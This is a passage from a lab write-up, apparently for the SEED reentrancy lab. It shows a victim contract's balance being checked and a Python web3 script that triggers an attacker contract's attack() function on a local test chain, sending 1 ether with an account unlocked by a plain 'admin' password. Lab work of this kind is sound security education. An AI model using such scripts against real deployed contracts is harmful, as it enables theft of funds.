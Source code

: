 We used the balance script to verify the victim contract’s balance before attacking:

```bash
python3 get_balance.py
```

![Initial Balances](./images/lab6/7.png)

---

### Step 3.2 – Configure and Launch the Attack

We edited `Labsetup/attack/launch_attack.py` with the attacker contract’s address:

```python
#!/bin/env python3

from web3 import Web3
import SEEDWeb3
import os

web3 = SEEDWeb3.connect_to_geth_poa('http://10.151.0.71:8545')

sender_account = web3.eth.accounts[1]
web3.geth.personal.unlockAccount(sender_account, "admin")

abi_file      = "../contract/ReentrancyAttacker.abi"
attacker_addr = '0xE4f431062358923783bc63Ba7bC0BF232AFd9f99'

# Launch the attack
contract_abi  = SEEDWeb3.getFileContent(abi_file)
contract = web3.eth.contract(address=attacker_addr, abi=contract_abi)
tx_hash  = contract.functions.attack().transact({ 
                    'from':  sender_account,
                    'value': Web3.toWei('1', 'ether')
                })
print("Transaction sent, waiting for block ...")
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print("Transaction Receipt: {}".format(tx_receipt))
```

```bash
python3 launch_attack.py
```

The output confirmed that the transaction was sent and mined.

![Attack Launched](./images/lab6/8.png)

---